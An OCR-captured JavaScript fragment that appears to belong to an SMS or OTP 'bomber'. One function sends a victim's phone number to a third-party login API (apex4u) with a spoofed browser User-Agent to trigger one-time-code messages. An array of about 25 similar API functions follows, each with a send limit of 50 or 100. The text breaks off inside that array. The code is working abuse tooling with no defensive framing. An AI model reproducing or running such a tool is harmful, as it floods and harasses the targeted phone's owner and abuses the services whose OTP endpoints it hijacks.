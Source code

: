 
async function api_26(phone) {
const data = {
   "phoneNumber": phone
         };

 
    try {
        const response = await fetch('https://api.apex4u.com/api/auth/login', {
            method: 'POST',
           headers: {
           'Content-Type': 'application/json',
           'User-Agent': 'Mozilla/5.0'
           },
           body: JSON.stringify(data)
        });

        const result = await response.json();

      
        if (result.otpsent === 'false' || result.status === 'failed') {
            throw new Error(`API 26 Failure: ${result.error || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 26 Error:', error);
        throw error;
    }
}


        const apis = [
            { func: api_1, limit: 100, count: 0 },
            { func: api_2, limit: 100, count: 0 },
            { func: api_3, limit: 100, count: 0 },
            { func: api_4, limit: 100, count: 0 },
            { func: api_5, limit: 100, count: 0 },
            { func: api_6, limit: 100, count: 0 },
            { func: api_8, limit: 100, count: 0 },
            { func: api_9, limit: 100, count: 0 },
            { func: api_10, limit: 100, count: 0 },
            { func: api_11, limit: 100, count: 0 },
            { func: api_12, limit: 100, count: 0 },
            { func: api_13, limit: 50, count: 0 },
            { func: api_14, limit: 50, count: 0 },
            { func: api_15, limit: 50, count: 0 },
            { func: api_16, limit: 50, count: 0 },
            { func: api_17, limit: 100, count: 0 },
            { func: api_18, limit: 100, count: 0 },
            { func: api_19, limit: 100, count: 0 },
            { func: api_20, limit: 100, count: 0 },
            { func: api_21, limit: 100, count: 0 },
            { func: api_22, limit: 100, count: 0 },
            { func: api_23, limit: 100, count: 0 },
            { func: api_24, limit: 100, count: 0 },
            { func: api_25, limit: 100, count: 0 },
            { func: api_26, limit: 100, count: 0 },
         